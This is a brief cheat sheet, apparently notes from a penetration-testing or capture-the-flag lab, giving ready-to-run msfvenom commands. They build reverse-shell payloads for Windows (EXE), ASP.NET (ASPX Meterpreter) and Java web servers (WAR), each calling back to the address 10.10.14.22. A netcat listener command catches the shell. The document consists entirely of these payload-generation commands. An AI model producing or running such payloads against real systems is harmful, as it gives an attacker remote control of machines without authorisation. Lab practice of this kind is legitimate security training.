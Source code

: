 # msfvenom

- reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse-shell.exe`

- meterpreter

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=5555 -f aspx > ex.aspx`

- reverse shell 

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.22 LPORT=5555 -f war > shell.war`

`nc -lvp 5555`